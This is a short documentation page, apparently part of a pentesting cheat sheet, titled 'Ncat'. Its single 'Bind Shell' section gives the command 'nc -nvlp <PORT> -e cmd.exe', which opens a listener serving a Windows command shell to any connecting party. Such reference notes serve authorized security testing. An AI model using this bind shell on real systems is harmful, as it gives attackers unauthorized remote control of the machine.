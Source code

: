 ```yaml
---
title: "Ncat"
description: "Ncat"
lead: "Ncat"
date: 2020-11-12T15:22:20+01:00
lastmod: 2020-11-12T15:22:20+01:00
draft: false
images: []
menu: 
  docs:
    parent: "tools"
weight: 620
toc: true
---
```


## Bind Shell

{{< btn-copy text="nc -nvlp <PORT> -e cmd.exe" >}}

```bash
nc -nvlp <PORT> -e cmd.exe
```  
